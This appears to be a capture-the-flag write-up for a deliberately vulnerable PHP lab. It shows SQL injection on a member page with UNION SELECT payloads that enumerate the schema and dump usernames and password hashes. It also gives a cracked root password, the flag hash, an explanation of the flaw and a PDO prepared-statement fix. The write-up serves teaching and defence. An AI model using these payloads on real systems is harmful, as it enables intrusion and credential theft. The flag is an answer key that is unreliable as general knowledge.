 # SQL Admin Connection

`B3A6E43DDF8B4BBB4125E5E7D23040433827759D4DE1C04EA63907479A80A6B2`

---

## Description

go to `/?page=member`

submit : 
- `1 UNION SELECT column_name , 1 FROM information_schema.columns`
- `1 UNION SELECT table_name , 1 FROM information_schema.columns `
- `1 UNION SELECT table_schema, 1 FROM information_schema.tables`

then : \
`1 UNION SELECT username, password FROM Member_Brute_Force.db_default`

password = 3bf1114a986ba87ed28fc1b5884fc2f8  =>  "shadow"

then go to `/index.php?page=signin`

login :	`root`\
mdp :	`shadow`

---

## How does it work ?

The query executed by the server is probably like `SELECT first_name, last_name FROM Member_Sql_Injection.users WHERE id= ` and then it is filled with the parameter sent by the client which should be a number. The id parameter is not protected, which means that you can inject SQL without the server detecting any problem.

You have to send a valid parameter to respect the SQL syntax : \
`SELECT first_name, last_name FROM Member_Sql_Injection.users WHERE id=1`

And then the door is opened to append another query to the current string :

`SELECT first_name, last_name FROM Member_Sql_Injection.users WHERE id=1 UNION SELECT username, password FROM Member_Brute_Force.db_default`

The UNION statement allows us to get two other columns (the number of queried columns should be the same as in the first part of the query) from the table we want.

---

## How to prevent it ?

In the case of a php back-end, use PDO :
- The query will be sanitized with the `prepare` statement
- It will then be executed with the `execute` statement once the risk of an undesired effect is avoided

Here is a more detailed explanation found on StackOverflow regarding the `prepare` and `execute` commands :

>The SQL statement you pass to prepare is parsed and compiled by the database server. By specifying parameters (either a ? or a named parameter like :name in the example above) you tell the database engine where you want to filter on. Then when you call execute, the prepared statement is combined with the parameter values you specify.

>The important thing here is that the parameter values are combined with the compiled statement, not an SQL string. SQL injection works by tricking the script into including malicious strings when it creates SQL to send to the database. So by sending the actual SQL separately from the parameters, you limit the risk of ending up with something you didn't intend."